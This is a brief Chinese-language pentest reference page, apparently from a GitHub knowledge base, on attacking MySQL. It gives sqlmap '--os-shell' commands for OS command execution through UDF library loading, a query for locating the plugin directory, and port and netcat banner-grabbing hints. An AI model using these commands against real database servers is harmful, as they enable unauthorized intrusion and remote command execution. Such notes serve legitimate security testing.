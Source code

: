 ## 组件简介

Mysql常见数据库服务。

## 漏洞列表

| 漏洞名称 | 漏洞ID | 影响版本 | CVSS |
| -------- | ------ | -------- | ---- |
|          |        |          |      |

### UDF

相当于上传一个.dll/.so直接加载，可以执行命令

1. sqlmap自动利用
```bash
sqlmap -d 'mysql://USER:PASSWORD@DBMS_IP:DBMS_PORT/DATABASE_NAME' --os-shell
sqlmap -d 'access://DATABASE_FILEPATH' --os-shell
```

2. 手动利用
参考文章[利用MySQL UDF进行的一次渗透测试](https://www.freebuf.com/articles/system/163144.html)

> tips

```mysql
# 读插件位置
select @@plugin_dir;
```

## 组件指纹

1. 端口常为3306
2. nc可探测banner


